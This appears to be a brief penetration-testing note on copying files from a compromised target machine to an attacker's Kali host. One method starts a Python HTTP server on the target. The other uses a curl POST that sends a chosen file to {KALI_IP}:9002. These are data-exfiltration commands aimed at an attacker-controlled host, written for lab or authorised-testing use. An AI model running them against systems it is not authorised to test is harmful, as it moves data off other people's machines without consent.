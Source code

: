 # Download
Very often we want to download and open locally a file we found in the target machine.

## Python
The simplest way to do it is to start a Python Server in the same directory of the file and send a GET request

```console
# From target
python3 -m http.server {PORT}

# From kali browser
http://{TARGET_IP}:{PORT}/{FILE_NAME}
```

## Curl
It can happen the target System has not python installed. In this case we can start a Python server locally and send a POST request (simulating an upload).

```console
# From kali
python downloader.py

# From target 
curl {KALI_IP}:9002 -X POST -F 'file=@"{/path/file}"'
```
